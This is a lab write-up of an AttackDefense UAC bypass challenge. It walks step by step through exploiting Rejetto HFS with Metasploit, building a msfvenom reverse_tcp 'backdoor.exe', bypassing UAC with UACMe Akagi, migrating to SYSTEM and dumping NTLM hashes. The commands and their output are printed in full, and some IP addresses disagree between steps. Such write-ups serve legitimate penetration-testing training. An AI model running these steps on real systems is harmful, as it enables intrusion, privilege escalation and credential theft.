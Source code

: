 # 🔬UAC Bypass

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> * Target IP: `10.4.17.63`
> * Local IP: `10.10.16.2`
> * **UAC** bypass

### Enumeration

```bash
nmap 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:55 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.58 seconds
```

* Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:57 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

The version can be checked in a browser by opening the link

* `http://10.4.17.63/`

<figure><img src="../../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Exploitation

* Run `metasploit` without showing banner
* Set the target IP as **GLOBAL RHOSTS variable**

```bash
msfconsole -q
msf6 > setg RHOSTS 10.0.17.63
```

```bash
msf6 > search hfs
msf6 > use exploit/windows/http/rejetto_hfs_exec
# direct exploit since the RHOSTS has been set globally (can check with show options)
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* Use `meterpreter` commands to gain more information about the target

<figure><img src="../../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* Get `admin` user privileges

<figure><img src="../../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

> Privileges are very few which indicates that this user is not privileged at this point&#x20;

<figure><img src="../../../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

> Do not have permission to elevate privileges

* Verify if `admin` user is part of the local administrators group

```bash
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net localgroup administrators
```

<figure><img src="../../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

> The admin user is a member of the Administrators group. However, it do not have the high privilege as of now.&#x20;



<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

In order to run programs or tasks with elevated privileges, `UAC` bypass is necessary

### UAC Bypass & Privesc <a href="#uac-bypass-and-privesc" id="uac-bypass-and-privesc"></a>

* [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
root@attackdefense:~# ls /root/Desktop/tools/UACME/
Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

* Generate a `meterpreter` payload with `msfvenom`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > backdoor.exe
```

<figure><img src="../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Set up a new `msfconsole` session and set up a listener with `multi/handler`, to receive the connection one the payload is executed on the target

* set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
* set the `LHOST` IP and `LPORT` of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

* The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
* Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

* UAC would prevent running `backdoor.exe`
* Run `Akagi64.exe` executable with UACMe method 23

<figure><img src="../../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```bash
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

* Elevated `meterpreter` session should be received on the listener

<figure><img src="../../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > getuid
meterpreter > getprivs
```

The privileges amount has increased.

<figure><img src="../../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Migrate to a `NT AUTHORITY\SYSTEM` service.

```bash
meterpreter > ps
```

<figure><img src="../../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ps
meterpreter > migrate 508 
```

<figure><img src="../../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

> **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

{% hint style="success" %}
Flag: `4d6583ed4cef81c2f2ac3c88fc5f3da6`
{% endhint %}


